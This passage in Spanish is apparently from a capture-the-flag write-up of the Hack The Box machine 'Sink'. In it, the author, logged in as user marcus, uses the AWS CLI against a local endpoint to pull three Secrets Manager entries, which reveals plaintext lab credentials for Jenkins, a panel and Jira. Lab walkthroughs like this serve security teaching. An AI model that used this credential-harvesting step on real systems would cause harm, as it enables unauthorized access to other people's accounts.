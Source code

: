 Por ejemplo, veamos el valor secreto de **Jenkins Login** (`get-secret-value`):

🛹 **<u>Jenkins Login</u>**.

```bash
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-AZIdv"
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-AZIdv",
    "Name": "Jenkins Login",
    "VersionId": "53cf9fdf-cb47-4b35-9ba1-046bcb43cfb6",
    "SecretString": "{\"username\":\"john@sink.htb\",\"password\":\"R);\\)ShS99mZ~Bj\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1614230338
}
```

Opa, el valor secreto son unas credenciales:

* `john@sink.htb` : `R);\\)ShS99mZ~Bj` o `R);\)ShS99mZ~Bj`

Antes de ver si son funcionales, validemos con los otros 2 IDs para ver que tienen:

🛹 **<u>Sink Panel</u>**.

```bash
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-ILKxI"
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-ILKxI",
    "Name": "Sink Panel",
    "VersionId": "97d47d9b-6e95-459e-a0b4-60411a9054d2",
    "SecretString": "{\"username\":\"albert@sink.htb\",\"password\":\"Welcome123!\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1614230338
}
```

* `albert@sink.htb` : `Welcome123!`

🛹 **<u>Jira Support</u>**.

```bash
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-fKqdR"
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-fKqdR",
    "Name": "Jira Support",
    "VersionId": "b07ec8cf-4f71-41bb-b20b-023d874be8a9",
    "SecretString": "{\"username\":\"david@sink.htb\",\"password\":\"EAL8=bcC=`a7f2#k\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1614230338
}
```
